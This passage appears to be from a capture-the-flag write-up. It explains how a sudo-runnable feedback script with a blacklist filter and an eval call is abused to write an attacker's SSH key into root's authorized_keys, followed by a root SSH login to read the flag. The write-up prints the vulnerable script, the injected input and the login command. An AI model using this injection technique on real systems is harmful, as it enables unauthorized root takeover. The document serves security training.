 This output means that we can run `/opt/NewComponent/feedback.sh` with sudo.
By inspecting the content of `feedback.sh` with `cat`, we see the following

```
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi


```

The default behavior of the script is reading from command line and storing the input in the `feedback` variable, to the append this to `/var/log/feedback.txt`. There are some checks to avoid escape characters such as & or ;. However, nothing prevents us from executing the following

```
some_public_key > /root/.ssh/authorized_keys
``` 

Therefore, we go ahead and generate a new asymmetric key pair with `ssh-keygen`, and inject it by running `sudo feedback.sh` and using the line above

```
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
ssh-ed25519 OUR_PUBLIC_KEY name > /root/.ssh/authorized_keys
It is This:
Feedback successfully saved.

```

Now from our local terminal we can connect again via SSH as root using the private key as identity file

```
ssh root@TARGET_IP -i path/to/our_private_key
```

Finally, we can navigate to `/root/` and cat the content of `root.txt`, which is the second flag.

